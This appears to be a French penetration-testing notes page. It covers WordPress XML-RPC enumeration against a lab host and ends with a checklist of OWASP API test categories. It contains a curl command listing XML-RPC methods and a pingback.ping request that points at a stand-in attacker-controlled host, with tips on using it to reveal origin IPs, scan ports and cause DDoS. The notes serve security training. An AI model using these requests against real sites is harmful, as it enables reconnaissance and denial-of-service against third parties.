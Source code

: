
---

## [[Command Injection]]


---

## XML-RPC

```BASH
curl -s -X POST -d "<methodCall><methodName>system.listMethods</methodName></methodCall>" http://blog.inlanefreight.com/xmlrpc.php
```

### Pingback.ping Méthode

> [!TIP]
>  
> - Permet d'identifier l'IP publique (intéressant si derrière un cloudflare) -> doit pointer vers un VPS contrôlé par l'attaquant.
> - Cross-Site Port Attack (XSPA) -> permet d'identifier les ports ouverts sur la machine en pointant vers lui même (regarder les réponses / différence de temps eentree elles)
> - DDoS

```http
--> POST /xmlrpc.php HTTP/1.1 
Host: blog.inlanefreight.com 
Connection: keep-alive 
Content-Length: 293

<methodCall>
<methodName>pingback.ping</methodName>
<params>
<param>
<value><string>http://attacker-controlled-host.com/</string></value>
</param>
<param>
<value><string>https://blog.inlanefreight.com/2015/10/what-is-cybersecurity/</string></value>
</param>
</params>
</methodCall>
```


---
# API

- [ ] [[#1. Fuite d'informations]]
- [ ] [[#2. Broken Object Level Authorization (IDOR)]]
- [ ] [[#3. Broken Authentication]]
- [ ] [[#4. Broken Object Property Level Authorization]]
- [ ] [[#5. Unrestricted Resource Consumption]]
- [ ] [[#6. Broken Function Level Authorization]]
- [ ] [[#7. Unrestricted Access to Sensitive Business Flows]]
- [ ] [[#8. Server-Side Request Forgery (SSRF)]]
- [ ] [[#9. Security Misconfiguration]]
- [ ] [[#10. Improper Inventory Management]]
- [ ] [[#11. Unsafe Consumption of APIs]]
- [ ] [[#Tester XSS (Cross-Site Scripting)]]
- [ ] [[#Tester XXE Injection]]
- [ ] [[#Regular Expression Denial of Service (ReDoS)]]
- [ ] [[#Tester HTTP Verb Tempering]]
